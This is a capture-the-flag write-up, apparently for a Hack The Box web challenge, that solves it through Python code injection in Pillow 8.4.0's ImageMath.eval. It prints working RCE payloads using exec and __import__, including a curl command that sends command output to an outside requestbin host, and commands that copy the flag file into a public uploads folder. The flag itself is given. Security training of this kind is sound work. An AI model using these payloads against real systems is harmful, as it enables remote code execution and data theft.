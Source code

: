 ## Skills involved: Python command injection RCE, Context Escaping

I did not have previous experience with Flask, but this challenge is not that difficult.

The web application is an image color remover, taking a specified color and converting it to transparency.

Only one dependency, Pillow, has the version specified (8.4.0). That is definitely [sus](https://security.snyk.io/vuln/SNYK-PYTHON-PILLOW-2331901).

![image](https://user-images.githubusercontent.com/26480299/169521629-aee84185-c1d1-4ef6-b8af-9691a1d216aa.png)

We do have ImageMath.eval in the source code and we can throw in some payloads to the colors, which are used *directly without being parsed as integers*. (I used [Burp](https://portswigger.net/burp), which I learnt from "[TryHackMe](https://tryhackme.com/) Christmas" for this)

`os.system('ls -l | curl -X POST --data-binary @- https://requestbin.io/********')`
> name 'os' is not defined

It seemed like I could only use standard library and the specified variables, and I definitely cannot use a simple `import os` within the bracket context. It turns out that:
- we can use `exec(command)` to escape the bracket context (as suggested in the Snyk report)
- there's an inline version of import `__import__`
Both commands are available in the standard library.

So I tried:
`exec('__import__("os").system("ls -l | curl -X POST --data-binary @- https://requestbin.io/*********")')`

My domain did't catch it, perhaps the server can't make arbitrary web requests? I have to find other ways to leak the info as the RCE is most likely what I needed.

Since with RCE we can do virtually whatever we want, we can make files in the static folder, which can definitely be accessed. Here's how I approached it inside my docker container:

```
"exec('__import__(\"os\").system(\"touch pwn.txt\")')"
"exec('__import__(\"os\").system(\"pwd > pwn.txt\")')"
"exec('__import__(\"os\").system(\"pwd > application/static/uploads/pwn.txt\")')"
"exec('__import__(\"os\").system(\"ls > application/static/uploads/pwn.txt\")')"
"exec('__import__(\"os\").system(\"cat ../flag.txt > application/static/uploads/pwn.txt\")')"
```

**Flag: HTB{i_slept_my_way_to_rce}**

Remark: escaping characters in Burp was a pain.
